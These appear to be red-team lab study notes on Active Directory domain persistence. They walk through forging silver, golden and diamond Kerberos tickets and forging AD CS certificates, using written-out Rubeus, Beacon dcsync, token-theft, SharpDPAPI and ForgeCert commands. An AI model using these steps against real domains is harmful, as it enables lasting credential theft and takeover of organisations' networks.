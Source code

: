 # Domain Dominance

Once an attacker achieves a very high level of privilege in the domain, such as Domain or Enterprise Admin, it's very difficult for a defending organisation to recover or even consider the forest as "clean" again.  Attackers with this access can extract credential material from the domain and use it to re-obtain DA-level access at any time.  The majority of these credentials are never changed, which grants practically unlimited access.

## Silver Tickets

Forged service ticket signed using the secret keys of a computer. You can forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence. By default, computer passwords change every 30 days, at which time you must get the new secrets to continue making silver tickets. Tickets are forged, and can be generated by the attacker and imported into a Beacon session.

1: Dump Kerberos keys from Workstation 1 from a SYSTEM Beacon.

2: On the attacking machine, use Rubeus to forge a service ticket for nlamb and the CIFS service:

    PS C:\Users\Attacker> Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3c... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3: Import the ticket:

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
    [-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD...
    beacon> steal_token 5668
    [+] Impersonated DEV\bfarmer
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$

Useful ticket combinations:

* psexec:	HOST & CIFS
* winrm:	HOST & HTTP
* dcsync (DCs only):	LDAP

## Golden Tickets

Forged TGT signed by the domain's krbtgt account. Where a silver ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A golden ticket can be used to impersonate any user, to any service, on any machine in the domain, and the credentials are never changed automatically. For that reason, the krbtgt NTLM/AES hash is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently). 

Because domain controllers don't track TGTs they have legitimately issued, they will accept TGTs that are encrypted with their own krbtgt hash.

One way to detect the use of golden tickets is to look for TGS-REQs that have no corresponding AS-REQ. 

1: Obtain the krbtgt hash by using dcsync from the context of a domain admin:

    beacon> dcsync dev.cyberbotic.io DEV\krbtgt

2: Forge the ticket offline using Rubeus:

    PS C:\Users\Attacker> Rubeus.exe golden /aes256:51d7f3... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3: Import into a logon session to use:

    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz...
    beacon> steal_token 5060
    beacon> run klist
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

## Diamond Tickets

Made by modifying the fields of a legitimate TGT that was issued by a DC. This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. This overcomes the aforementioned shortcoming of a golden ticket because any TGS-REQs will have a preceding AS-REQ.

1: Prove we have no access to the DC:

    beacon> getuid
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

2: Create the diamond ticket:

    beacon> execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7... /nowrap

where:

    /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
    /ticketuser is the username of the user to impersonate.
    /ticketuserid is the domain RID of that user.
    /groups are the desired group RIDs (512 being Domain Admins).
    /krbkey is the krbtgt AES256 hash.

Rubeus describe will now show that this is a TGT for the target user.

    PS C:\Users\Attacker> Rubeus.exe describe /ticket:doIFYj...

## Forged Certificates

AD CS roles may be on separate servers and not on the DC, often not with the same sensitivity as DCs. Only EAs and DAs can access/manage DCs, but lower roles e.g. server admins can access the CAs. Gaining LA to a CA allows an attacker to extract the CA private key, which can be used to sign a forged cert (like the krbtgt hash being able to sign a forged TGT). The default validity period is 5 years, but can be changed during setup.

1: Once on a CA, SharpDPAPI can extract the private keys:

    beacon> run hostname
    dc-2
    beacon> getuid
    [*] You are NT AUTHORITY\SYSTEM (admin)
    beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine

2: Save the private key and cert to a .pem file and convert it to a .pfx with openssl.  

3: Build the forged certificate with ForgeCert:

    PS C:\Users\Attacker> ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123

Though SubjectAltName can be anything, the user does need to be present in AD. Use Rubeus to request a legitimate TGT with this forged certificate:

    beacon> execute-assembly Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACA... /password:pass123 /nowrap

Can forge user and machine certs. Use this with the S4U2self trick to gain access to any machine or service in the domain.


